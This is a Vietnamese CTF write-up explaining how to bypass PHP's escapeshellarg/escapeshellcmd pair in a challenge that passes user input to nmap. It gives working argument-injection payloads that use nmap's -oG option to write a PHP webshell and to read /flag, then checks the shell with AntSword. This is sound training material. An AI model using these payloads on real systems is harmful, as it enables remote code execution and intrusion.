 Challenge cho ta source code sau:

```php
<?php
 
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
 
if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

Đầu tiên là `REMOTE_ADDR` và `X_FORWARDED_FOR` cũng ko quan trọng mấy.Ta có thể truyền tham số “host” thông qua method GET. Nếu tham số host có tồn tại thì nó sẽ được xử lí lần lượt qua 2 hàm `escapeshellarg()` và `escapeshellcmd()`.Đối với hàm `escapeshellarg()` trong PHP được sử dụng để bảo vệ các đối số được truyền vào cho một lệnh shell. Nó thực hiện việc xử lý các ký tự đặc biệt trong đối số để đảm bảo rằng chúng không được hiểu nhầm là các ký tự có ý nghĩa đặc biệt trong shell,và nó bọc dấu ngoặc đơn để đảm bảo rằng các ký tự đặc biệt không được hiểu là phần của lệnh, mà chỉ được coi là phần chuỗi.

`escapeshellcmd` Đảm bảo rằng user chỉ thực hiện một command.Dấu “\” sẽ được thêm vào trước các kí tự & #; `| \? ~ <> ^ () [] {} $ *, \ X0A và \ xFF

Sau khi xử lí host qua 2 hàm trên, thì nó tạo một thư mục với tên là một mã băm MD5 của chuỗi "glzjin" và địa chỉ IP của người dùng ($_SERVER['REMOTE_ADDR']). Điều này có thể tạo ra một thư mục duy nhất cho mỗi người dùng.Sau đó chuyển `you are in sandbox` vào thư mục được tạo.Cuối cùng, sử dụng hàm system() để thực thi lệnh "nmap" với các tùy chọn. Lệnh này sẽ chạy công cụ quét mạng Nmap với các tùy chọn "-T5 -sT -Pn --host-timeout 2 -F" và địa chỉ IP hoặc tên miền đã được truyền qua biến $_GET['host']. Kết quả của lệnh được xuất ra trình duyệt.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4c964fda-0b73-49b1-8969-07d3b48ad741)


![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2bd5a9be-1080-46f1-979f-e7cdf3a96f3b)

Mình có đọc [wu](https://security.szurek.pl/en/exploit-bypass-php-escapeshellarg-escapeshellcmd/#gitlist-rce-exploit) này, theo wu viết thì có cách để bypass 2 hàm này là Argument injection - tấn côn dựa trên việc giả các tham số.Vậy ta có pass vào các option mới cho command.Tùy vào command mà challenge cho thì cách bypass khác nhau. Với command của challenge cho là

`nmap -T5 -sT -Pn --host-timeout 2 -F`

Viết một Trojan link

`?host=' <?php echo phpinfo();?> -oG test.php '`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/90600511-02cb-4825-b1ea-ce1ebb3a3d45)

Mình sử dụng antsword để check xem nó có hoạt động ko

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5b42520c-d23a-49b2-bd12-dd80bf25dc40)

Mình tiếp tục inject, sử dụng option -oG của nmap để viết command và ouput vào 1 file.

payload: ?host=' <?php echo `cat /flag`;?> -oG test.php '

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/0f806814-75af-45c5-92d3-77a65e188bf0)

